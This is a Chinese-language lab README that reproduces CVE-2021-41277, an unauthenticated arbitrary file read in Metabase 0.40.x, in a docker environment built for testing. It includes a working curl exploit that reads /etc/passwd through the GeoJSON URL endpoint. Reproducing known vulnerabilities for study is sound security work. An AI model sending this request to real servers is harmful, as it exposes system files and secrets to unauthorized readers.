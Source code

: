 # Metabase任意文件读取漏洞（CVE-2021-41277）

Metabase是一个开源的数据分析平台。在其0.40.0到0.40.4版本中，GeoJSON URL验证功能存在远程文件读取漏洞，未授权的攻击者可以利用这个漏洞读取服务器上的任意文件，包括环境变量等。

参考链接：

- <https://github.com/metabase/metabase/security/advisories/GHSA-w73v-6p7p-fpfr>
- <https://github.com/tahtaciburak/CVE-2021-41277>

## 环境搭建

执行如下命令启动一个Metabase 0.40.4版本服务器：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:3000`可以查看到Metabase的安装引导页面，我们填写初始账号密码，并且跳过后续的数据库填写的步骤即可完成安装：

![](1.png)

## 漏洞复现

只需要使用CURL即可简单地复现这个漏洞：

```
curl -v http://your-ip:3000/api/geojson?url=file:////etc/passwd
```

可见，`/etc/passwd`已经被成功读取：

![](2.png)
